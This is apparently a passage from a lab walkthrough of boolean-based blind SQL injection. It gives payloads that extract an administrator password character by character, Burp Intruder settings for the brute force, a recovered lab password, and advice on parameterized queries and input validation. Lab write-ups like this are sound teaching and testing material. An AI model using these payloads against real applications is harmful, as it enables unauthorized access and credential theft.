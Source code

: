 --
' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a'--
--

* Configure the payload set

-Go to the Payloads tab.

-Set the payload type to Simple list.

-Enter all possible characters:

```
'abcdefghijklmnopqrstuvwxyz
'ABCDEFGHIJKLMNOPQRSTUVWXYZ
'0123456789
```

* Run the attack for each character position

Start with position 1:

```
' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='§a§'--
```

==> Look at the Length or Response column in the Intruder results, If it’s longer or contains "Welcome back", that character is correct and repeat for positions 1 → 20.
Write down each discovered character in order until you have all 20.

Example found password in my lab :
52rabjtjpa749cy0bvo6


### 6.Verify the password

Use Burp Repeater to check if it matches the administrator account:

```
' AND SUBSTRING((SELECT username FROM users WHERE password='52rabjtjpa749cy0bvo6'),1,1)='a'--
```

==> If it returns the "Welcome back" message → the password is correct , and you can test
in lab with Username: administrator and Password: 52rabjtjpa749cy0bvo6

###  Mitigation

To prevent boolean-based blind SQL injection — and all forms of SQL injection — the application logic must never concatenate untrusted input (such as cookies, query parameters, or form fields) directly into SQL queries.

## Key mitigations include:

1. Use parameterized queries  
   Ensure that all SQL queries are constructed using placeholders (`?`) and parameter binding provided by your framework or database library, so that user input is treated purely as data, never as executable SQL code.
   
2. Strict input validation and sanitization
   - Reject unexpected characters (quotes, semicolons, comment markers) when possible.  
   - Enforce strict data types (e.g., integers for numeric fields).
   